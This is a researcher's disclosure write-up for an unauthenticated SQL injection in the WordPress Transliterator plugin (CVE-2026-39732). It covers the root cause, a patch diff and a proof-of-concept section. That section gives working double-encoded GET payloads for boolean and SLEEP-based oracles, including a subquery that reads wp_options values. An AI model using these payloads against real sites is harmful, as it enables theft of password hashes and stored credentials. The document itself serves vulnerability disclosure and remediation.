


| | |
|---|---|
| CVE | [CVE-2026-39732](https://www.cve.org/CVERecord?id=CVE-2026-39732) |
| Plugin | Transliterator (`serbian-transliteration`) |
| Affected | <= 2.5.13 |
| Fixed in | 2.5.14 |
| Severity | CVSS 9.3 Critical |
| Attacker needs | no account |
| Advisory | [Patchstack](https://patchstack.com/database/wordpress/plugin/serbian-transliteration/vulnerability/wordpress-transliterator-plugin-2-5-13-sql-injection-vulnerability) |
| PoC | [Mor-Golan/CVE-2026-39732](https://github.com/Mor-Golan/CVE-2026-39732) |

## Summary

I found an unauthenticated SQL injection in the Transliterator plugin (slug `serbian-transliteration`).<br>
An anonymous visitor can inject attacker controlled SQL into WordPress core's main posts query with a single HTTP GET to the public front page carrying a crafted `?name=` value.<br>
No account, nonce or capability is involved.<br>
I confirmed this is an arbitrary database read and not a reflected echo.<br>
Driving the injection as a boolean oracle, I reconstructed a secret planted in `wp_options` one character at a time, with no credentials and no cookie.<br>
The same primitive reaches `wp_users` password hashes and any secret stored in the database.

## Root cause

The plugin registers a `sanitize_title` filter whose callback calls `rawurldecode()` on the slug after WordPress core has already sanitised it.<br>
Core's `sanitize_title_with_dashes()` deliberately keeps percent escaped octets such as `%27` as inert text.<br>
The plugin decodes them back into raw bytes.<br>
For the public `name` query variable, WordPress concatenates the resulting slug straight into `WHERE wp_posts.post_name = '<value>'`, so a double percent encoded single quote (`%2527` on the wire) becomes a raw `'` that breaks out of the string literal.

`classes/wordpress.php` hooks `force_permalink_to_latin` onto `sanitize_title` at priority `PHP_INT_MAX - 100`.<br>
That callback, at `classes/mode.php:390`, runs `rawurldecode()` before returning the value:

```php
// classes/mode.php -- force_permalink_to_latin()
$permalink = rawurldecode($permalink);
return Transliteration_Controller::get()->cyr_to_lat_sanitize($permalink, $force);
```

The filter is registered on a default install because the option `permalink-transliteration` is `yes` both as the shipped default (`classes/utilities.php:73`) and as the unset fallback of `get_rstr_option()` (`serbian-transliteration.php:400-412`).<br>
The `rawurldecode()` runs unconditionally, before any locale or character map logic, so a stock `en_US` install with any permalink structure is affected.

I verified attribution with the plugin deactivated.<br>
The identical request then lands in the query as one harmless literal, `post_name = 'wpbb%2dseed%2dpost%27%20and%20...'`, with no raw quote and an HTTP 404.<br>
The raw quote appears only when the plugin's `sanitize_title` filter is active, so the defect is the plugin's and not core's.

## Proof of concept

I tested against a local lab at `http://localhost:8080` running only this plugin on a default install.<br>
The chain is easiest to see with plain permalinks, where `?name=` is explicit.<br>
Pretty permalinks reach the same `name` query variable through the post rewrite rule.

The value `%2527` on the wire is `%25` followed by `27`.<br>
WordPress decodes the query string once, yielding the text `%27`.<br>
Core preserves that `%27` octet.<br>
The plugin's `rawurldecode()` decodes it a second time into a raw `'`.<br>
The encodings `%2520` (space) and `%2523` (`#`, a MySQL comment) ride the same double decode, so the injected tail is valid SQL.

As an anonymous visitor with no cookies, I sent two requests against the stock `hello-world` post that every default install ships.<br>
They differ only in the injected predicate `(1=1)` versus `(1=2)`:

```
GET /?name=hello%252Dworld%2527%2520and%2520%25281%253D1%2529%2523 HTTP/1.1
Host: localhost:8080

GET /?name=hello%252Dworld%2527%2520and%2520%25281%253D2%2529%2523 HTTP/1.1
Host: localhost:8080
```

The `(1=1)` request returns HTTP 200 because the post resolves.<br>
The `(1=2)` request returns HTTP 404 because the post no longer matches.<br>
This 200 versus 404 differential on an otherwise identical request is a boolean oracle over any subquery I write between the parentheses.





The server query log shows the predicate reaching the database outside the string literal, which confirms the quote is not escaped:

```
WHERE 1=1  AND wp_posts.post_name = 'hello-world' and (1=1)#' AND wp_posts.post_type = 'post'
WHERE 1=1  AND wp_posts.post_name = 'hello-world' and (1=2)#' AND wp_posts.post_type = 'post'
```

The anonymous request runs this query as `user_id=0`, attributed to `WP_Query->get_posts`.<br>
I confirmed execution independently with a time based oracle.<br>
These two requests differ only in the `SLEEP` argument:

```
GET /?name=hello%252Dworld%2527%2520and%2520sleep%25280%2529%2523 HTTP/1.1
Host: localhost:8080

GET /?name=hello%252Dworld%2527%2520and%2520sleep%25283%2529%2523 HTTP/1.1
Host: localhost:8080
```

Both return HTTP 404 because `SLEEP()` yields 0 and the slug stops matching, but `sleep(3)` responded in about three seconds against about 0.03 seconds for `sleep(0)`.<br>
A benign 404 cannot consume server time this way.

Finally I used the oracle to read data an anonymous visitor cannot otherwise reach.<br>
I planted a non autoloaded `wp_options` row holding a test secret with no front end endpoint.<br>
In a benign request the secret appears zero times in the response body.<br>
Driving the oracle over `select option_value from wp_options where option_name='wpbb_canary_option'`, one character at a time, I reconstructed the value exactly in 172 anonymous GET requests.<br>
One such read request, a length probe anchored on `hello-world`, is:

```
GET /?name=hello%252Dworld%2527%2520and%2520%2528length%2528%2528select%2520option%255Fvalue%2520from%2520wp%255Foptions%2520where%2520option%255Fname%253D%2527wpbb%255Fcanary%255Foption%2527%2529%2529%253D22%2529%2523 HTTP/1.1
Host: localhost:8080
```

The predicate is TRUE (HTTP 200) when the length guess is correct and FALSE (HTTP 404) otherwise.<br>
The full automated reader is in the PoC repo.

## Impact

An anonymous visitor can read any value in the database one boolean at a time, and independently through a timing side channel.<br>
I controlled the subquery between the injected parentheses, so the reachable data includes `wp_options` rows holding plugin API keys, SMTP credentials and integration tokens, and `wp_users` password hashes.<br>
I demonstrated this concretely by recovering a planted secret that is not disclosed to an anonymous visitor through any front end endpoint.<br>
The injection is a single `SELECT` on the read path with no stacked queries and no write.

## Fix

Update to 2.5.14.

The defect is that the transliterated value is passed through `rawurldecode()` on the `sanitize_title` filter after core has already sanitised it.<br>
Reapplying core's slug sanitiser to the value, scoped to the `sanitize_title` filter so that the permalink filters which legitimately pass full URLs are unaffected, closes the path.<br>
The patch I verified in the lab is:

```diff
--- a/serbian-transliteration/classes/mode.php
+++ b/serbian-transliteration/classes/mode.php
@@ -389,7 +389,24 @@
     {
         $permalink = rawurldecode($permalink);
 
-        return Transliteration_Controller::get()->cyr_to_lat_sanitize($permalink, $force);
+        $permalink = Transliteration_Controller::get()->cyr_to_lat_sanitize($permalink, $force);
+
+        // SECURITY (CWE-89): on the sanitize_title filter the value reaching this
+        // callback has ALREADY been through core's sanitize_title_with_dashes(), which
+        // deliberately preserves percent-escaped octets (%27, %20, ...) as inert text.
+        // The rawurldecode() above turns them back into raw bytes, and for the public
+        // `name` query var WP_Query concatenates the result straight into
+        //     WHERE wp_posts.post_name = '<value>'
+        // so a %2527 becomes a single quote that breaks out of the string literal
+        // (unauthenticated SQL injection). Re-apply core's slug sanitiser to the
+        // transliterated value so the decode can never reintroduce a character core
+        // removed. Scope it to the slug filter: the_permalink / permalink_manager pass
+        // full URLs, which must not be re-slugged.
+        if (current_filter() === 'sanitize_title') {
+            $permalink = sanitize_title_with_dashes($permalink);
+        }
+
+        return $permalink;
     }
```

With this applied, the `(1=1)` and `(1=2)` requests both return HTTP 404 and the predicate can no longer flip the result.

## Timeline

- 2026-10-26: Found and validated in a local lab.
- 2026-10-30: CVE published.

## References

- [CVE-2026-39732](https://www.cve.org/CVERecord?id=CVE-2026-39732)
- [Patchstack advisory](https://patchstack.com/database/wordpress/plugin/serbian-transliteration/vulnerability/wordpress-transliterator-plugin-2-5-13-sql-injection-vulnerability)
- [PoC repository](https://github.com/Mor-Golan/CVE-2026-39732)
- [Plugin page](https://wordpress.org/plugins/serbian-transliteration/)
